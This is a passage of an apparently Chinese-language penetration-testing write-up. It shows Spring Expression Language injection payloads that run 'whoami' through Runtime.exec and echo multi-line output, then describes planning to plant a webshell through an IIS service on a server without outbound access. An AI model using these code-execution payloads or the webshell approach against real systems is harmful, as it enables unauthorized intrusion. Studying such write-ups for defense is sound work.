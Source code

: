 上面的 payload 只能读取单行结果，也可以使用其他的回显方法可以读取多行结果。

```plain
${new String(@org.springframework.util.StreamUtils@copyToByteArray(@java.lang.Runtime@getRuntime().exec("whoami").getInputStream()))}
${@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())}
```

![图片](assets/1706513706-c3f3496e6a44be43975064f07490a152.png)

经过探测发现服务器不通外网，所以还是得通过写 webshell 的方式来进一步获取权限，但是 SpringBoot 应用基本不大可能能写 webshell 到应用目录进行访问。刚巧发现服务器上还运行了 IIS 服务，直接访问 URL 的一级目录就出来一个报错信息了，真是山重水复疑无路，柳暗花明又一村。

![图片](assets/1706513706-2ad139a26f021453d9a547f105a34142.png)

